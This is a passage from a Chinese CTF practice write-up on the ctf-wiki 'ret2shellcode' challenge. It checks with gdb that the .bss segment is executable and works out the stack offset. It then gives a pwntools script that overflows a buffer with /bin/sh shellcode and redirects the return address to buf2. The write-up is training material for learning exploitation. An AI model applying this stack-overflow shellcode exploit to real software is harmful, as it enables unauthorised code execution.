 将s拷贝到buf2，buf2在`.bss:0804A080`

查看一下bss段权限

```bash
gdb ./ret2shell*
b main  #断点下在main函数处
r
vmmap  #查看内存映射
```



![image-20250212220233982](./ctf-wiki-pwn刷题.assets/image-20250212220233982.png)



可以看到bss段权限`rwxp`可读，可写，可执行，私有（其它进程不能访问）

那么我们参考上一题，并把返回地址覆写成buf2的地址

```
esp:0xffffcfc0
ebp:0xffffd048
s:esp+0x1c=0xffffcfdc
ebp与s的距离：0x6c
```





```python
from pwn import *
p= process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
#shellcraft.sh()：生成一个调用 /bin/sh 的 Shellcode
#asm()：将汇编代码转换为机器码字节序列
buf2_addr = 0x804a080
p.sendline(shellcode.ljust(112, b'A') + p32(buf2_addr))#0x6c+4=112
#将 shellcode 左对齐并填充到 112 字节，不足部分用 b'A' 填充。
p.interactive()
```
